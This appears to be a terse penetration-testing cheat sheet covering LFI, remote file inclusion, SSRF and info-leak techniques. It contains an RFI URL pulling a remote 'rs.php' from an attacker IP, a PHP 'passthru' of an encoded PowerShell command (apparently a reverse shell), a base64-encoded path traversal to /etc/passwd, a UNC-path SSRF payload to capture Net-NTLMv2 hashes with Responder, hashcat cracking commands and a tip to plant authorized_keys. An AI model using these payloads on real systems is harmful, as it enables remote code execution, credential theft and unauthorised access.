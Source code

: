 ```jsx
//LFI & file upload
upload authorized_keys to target
```

Remote File Inclusion (RFI)

```php
http://192.168.1.3:4443/site/index.php?page=http://192.168.1.1/rs.php
<?php
passthru("powershell -e JABjAGwAaQBlAG4AdAA...");
?>
```

Base64 encode required

```jsx
X-Error: Incorrect padding
/data/Li4vLi4vLi4vLi4vLi4vZXRjL3Bhc3N3ZA==
```

Vulnerable Platforms

```jsx
apache 2.4.49
Werkzeug/1.0.1
RESPONSIVE filemanager v.9.13.4
```

Web root

```jsx
/var/www/html
/var/www
```

### SSRF / Controllable URL

Net-NTLMv2 authenticate: try both smb and http

```jsx
name=asdd&mail=asd%40asd.cdcc&url=\\\\192.168.1.1\share
http://192.168.180.1:8080/?url=http://192.168.1.1
sudo responder -I tun0
hashcat -m 5600 crack /usr/share/wordlists/rockyou.txt --force //whole hash string
```

### Info Leakage

translate different language to english

```jsx
//domain name
slaes@skylak.jp
```

phpinfo.php

```jsx
$_SERVER['DOCUMENT_ROOT']	/srv/http
USER 	root 
```
